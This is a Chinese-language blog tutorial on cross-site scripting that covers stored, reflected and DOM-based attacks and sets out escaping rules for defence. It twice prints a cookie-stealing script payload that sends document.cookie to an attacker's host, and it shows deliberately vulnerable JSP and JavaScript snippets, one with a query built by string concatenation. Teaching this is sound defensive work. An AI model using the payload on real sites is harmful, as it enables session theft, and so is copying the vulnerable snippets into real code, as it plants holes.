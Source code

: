 ```yaml
---
title: "XSS Overview"
layout: post
date: 2016-08-15
permalink : /post/xss-overview
tag:
- SECURITY
blog: true
---
```


## 一、什么是XSS？

**跨站脚本攻击**(Cross Site Scripting)：攻击者往Web页面里插入恶意脚本，当用户浏览该页面时，嵌入页面的脚本代码会被执行，从而达到恶意攻击用户的特殊目的。恶意的内容通常需要以一段JavaScript的形式发送到浏览器,但也可能包括HTML、Flash,或任何其他类型的浏览器可以执行的代码

XSS的危害通常包括传输私有数据,像cookie或session信息；重定向受害者看到的内容；或在用户的机器上进行恶意操作。


XSS攻击发生的原因：

1. 数据通过一个未信任的来源进入Web应用中，最常见的是一个web请求
2. 数据中包含动态文本，然后发送给用户，但是没有校验恶意的文本，如velocity渲染页面


## 二、XSS 的类型

### Stored XSS(存储型XSS)

把用户输入的数据（比如恶意的js代码）存储在服务器端，具有很强的稳定性，危害时间长，每次用户读取这段数据时都会执行一次，所以受害者是很多人。

**最典型的攻击场景就是留言板。**

其攻击过程如下：

- Bob拥有一个Web站点，该站点允许用户发布信息/浏览已发布的信息。
- Charly注意到Bob的站点具有存储型XXS漏洞。
- Charly发布一个包含XSS攻击脚本的热点信息，并吸引其它用户纷纷阅读。
- Bob或者是任何的其他人如Alice浏览该信息，其会话cookies或者其它信息将被Charly盗走。


### Reflected XSS(反射型XSS)

反射攻击是通过另一种方式攻击受害者,比如在一封电子邮件。当用户点击了一个恶意链接,将会提交一个特殊的表单,或者仅仅只是浏览恶意网站,注入的代码将反射到攻击用户的浏览器

**最典型的攻击场景就是给个恶意链接让你去点。**

其攻击过程如下：

-  Alice经常浏览某个网站，此网站为Bob所拥有。Bob的站点运行Alice使用用户名/密码进行登录，并存储敏感信息（比如银行帐户信息）。
- Charly发现Bob的站点包含反射性的XSS漏洞。
- Charly编写一个利用漏洞的URL，并将其冒充为来自Bob的邮件发送给Alice。
- Alice在登录到Bob的站点后，浏览Charly提供的URL。

嵌入到URL中的恶意脚本在Alice的浏览器中执行，就像它直接来自Bob的服务器一样。此脚本盗窃敏感信息（授权、信用卡、帐号信息等）然后在Alice完全不知情的情况下将这些信息发送到Charly的Web站点。

### DOM Based XSS

这种不是按照存储在哪里来划分的，可以说是反射型的一种，由于历史原因，归为一类，通过改变DOM结构形成的XSS称之为DOM Based。

## 三、例子

## eg.1 Reflected XSS 

```java
<% String eid = request.getParameter("eid"); %> 
	...
	Employee ID: <%= eid %>
```

jsp页面中，我们可能会像上面那样写。

最初这似乎不可能出现的漏洞，因为攻击者不可能用来输入一段而已的代码然后攻击自己的电脑，导致恶意代码运行在自己的电脑。但**真正的危险**是,攻击者将创建恶意URL,然后使用电子邮件或社会工程学技巧来吸引受害者访问的URL链接。受害者点击链接时,无意中反映了恶意的内容通过脆弱的web应用程序回自己的电脑。这个机制称为**反射型XSS攻击**

> 
当我登录a.com后，我发现它的页面某些内容是根据url中的一个叫eid的参数直接显示的。 我知道了Tom也注册了该网站，并且知道了他的邮箱(或者其它能接收信息的联系方式)，我做一个超链接发给他，超链接地址为：http://www.a.com?eid=<script>window.open(“www.b.com?param=”+document.cookie)</script>，当Tom点击这个链接的时候(假设他已经登录a.com)，浏览器就会直接打开b.com，并且把Tom在a.com中的cookie信息发送到b.com，b.com是我搭建的网站，当我的网站接收到该信息时，我就盗取了Tom在a.com的cookie信息，cookie信息中可能存有登录密码，攻击成功！这个过程中，受害者只有Tom自己。

## eg.2 Stored XSS

```java
<%... 
 Statement stmt = conn.createStatement();
 ResultSet rs = stmt.executeQuery("select * from emp where id="+eid);
 if (rs != null) {
  rs.next(); 
  String name = rs.getString("name");
%>

Employee Name: <%= name %>
```

这段代码功能是显示名字,但这并没有阻止被利用。这段代码相对上一种而言危险更小,因为名字是读取数据库的值。然而,如果名字来源于用户提供的输入,那么数据库可以为恶意内容的一个渠道。没有适当的输入验证数据就存储在数据库中,攻击者可以在用户的web浏览器中执行恶意命令，也就是**存储型XSS攻击**。

> 
 a.com可以发文章，我登录后在a.com中发布了一篇文章，文章中包含了恶意代码，<script>window.open(“www.b.com?param=”+document.cookie)</script>，保存文章。这时Tom和Jack看到了我发布的文章，当在查看我的文章时就都中招了，他们的cookie信息都发送到了我的服务器上，攻击成功

### eg.3 DOM Based XSS

`http://www.a.com/xss/domxss.html`页面中代码如下：

```java
<script>
eval(location.hash.substr(1));
</script>
```

触发方式为：`http://www.a.com/xss/domxss.html#alert(1)`

## 四、网站是否会遭受XSS攻击？

XSS漏洞很难被识别或从一个web应用程序删除。发现缺陷的最好方法是进行**代码的安全审查**和搜索所有**从HTTP请求输入且有可能使其输出到页面**的代码，并对这些代码进行相应的处理。

注意,可以使用各种不同的HTML标记传输恶意JavaScript。Nessus Nikto,和其他一些可用的工具可以帮助扫描一个网站的这些缺陷,但却只是完成表面功夫。如果一个网站的某一部分是脆弱的,那么极有可能还有其他问题。


## 防御XSS的具体措施

### Rule1: 除了允许的位置外，不要将不信任的数据其他地方

也就是默认否认所有, 《白帽子讲web安全》中的Secure By Default原则

### Rule2: 在插入html标签内前对插入的数据进行转义

HTML元素(HTML elements)如下，也就是插入html标签的内容：

```html
<body>...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...</body>
 
 <div>...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...</div>
```

对这种情况要进行如下转义：

```html
 & --> &amp;
 < --> &lt;
 > --> &gt;
 " --> &quot;
 ' --> &#x27; 
 / --> &#x2F;
```

### Rule3: 在插入HTML的属性时对属性进行转义

如下：包括插入到无引号/单引号/双引号的数据

```html
 <div attr=...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...>content</div>   
 <div attr='...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...'>content</div>   
 <div attr="...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...">content</div>   
```

对于这种情况，除了字母数字，其它一律需要将所有其它字符转为&#xHH的形式；为什么要转义这么多的原因是：开发人员有时会忽略引号的书写，不遵守规范。
因此对空格，%，*，-，/，;，<等进行处理，当然Rule2中的也要进行转义。

### Rule4: 插入Javascript标签内前转义数据

这类处理的情景如下：

```javascript
<script>alert('...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...')</script>     
<script>x='...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...'</script>         
<div onmouseover="x='...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...'"</div>  
```

### Rule5: 在使用style属性时，对CSS转义和严格验证

```javascript
<style>selector { property : ...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...; } </style>     property value
<style>selector { property : "...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE..."; } </style>   property value
<span style="property : ...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...">text</span>       property value
```
处理方式和Rule3一致，同时需要注意的是不能使用转义接近如用`\"`转义`"`字符，因为引号字符可以会被认为是某个属性的终止，作为html执行。同时，这种捷径有可能导致转义再转义攻击。
比如攻击者发送`\"`，然后代码转义成`\\"`，这样引号就生效了，也就是相当于没有转义

## Rule6: 在插入URL参数时对URL进行转义

```javascript
 <a href="http://www.somesite.com?test=...ESCAPE UNTRUSTED DATA BEFORE PUTTING HERE...">link</a >  
```

对于这种情况，除了字母数字，其它一律需要将所有其它字符转为%HH的形式(其实可以查看RFC对应的文档就可以知道允许哪些字符，哪些需要转义)。
如空格转义成%20





